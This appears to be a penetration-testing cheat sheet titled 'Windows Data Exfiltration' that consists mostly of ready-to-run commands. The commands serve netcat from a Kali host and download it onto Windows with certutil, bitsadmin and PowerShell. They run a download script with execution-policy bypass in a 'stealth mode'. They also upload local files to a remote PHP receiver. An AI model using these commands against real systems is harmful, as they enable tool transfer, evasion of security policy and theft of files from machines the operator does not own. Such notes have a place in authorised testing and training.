 # Windows Data Exfiltration

* Use kali linux NC windows binary
* Locate file transfer utilities on Windows systems
* Download a file using certutil
* Download a file using bitsadmin
* Download a file with PowerShell
* Upload a file with PowerShell

## Use kali linux NC windows binary

```bash
sudo cp /usr/share/windows-binaries/nc.exe /var/www/html/
```

## FreeRSD - A Free Remote Desktop Protocol

* +clipboard
* /v: server

```bash
xfreerdp +clipboard /u:user /p:password /v:remote-ip
```

## Download a file using certutil

* We can also use this to download remote files.
* But: Certutil is blocked by Windows Security Antivirus rules.
* -urlcache
* -f file url 

```powershell
C:\Users\user> cd Downloads
certutil -urlcache -split -f http://kali-ip/nc.exe nc.exe
```

## Downlaod a file using bitsadmin

```powershell
bitsadmin /create DownloadJob
bitsadmin /addfile DownloadJob http://kali-ip/nc.exe C:\Users\user\Downloads\nc.exe
bitsadmin /resume DownloadJob
bitsadmin /complete DownloadJob
bitsadmin /info DownloadJob /verbose
```

## Downlaod a file using powershell

```powershell
(New-Object Net.WebClient).DownloadFile('http://remote-ip/nc.exe', 'nc.exe')

wget http://remote-ip/nc.exe -o nc.exe

Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe'
Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe' -proxy "http://proxy.contoso.com:8080
```

## Downlaod a file using powershell script with stealth mode

* Bypass security policy and default profiel
* -ExecutionPolicy Bypass
* -NoProfile

* Stealth mode
* -NonInteractive
* -NoLogo

```powershell
type .\wget.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://remote-ip/nc.exe"
$dst = "nc.exe"
$webclient.DownloadFile($url,$dst)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File .\wget.ps1
```

## Upload File with powershell

* '$' must be escaped in bash scripts
* \$

```bash
cat psupload.php
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
    echo "Upload done.";
else
    echo "Upload error!";
?>
```

```powershell
powershell $response=(New-Object Net.WebClient).UploadFile('http://remote-ip/psupload.php', '.\Upload.txt'); [Text.Encoding]::UTF8.GetString($response)
```
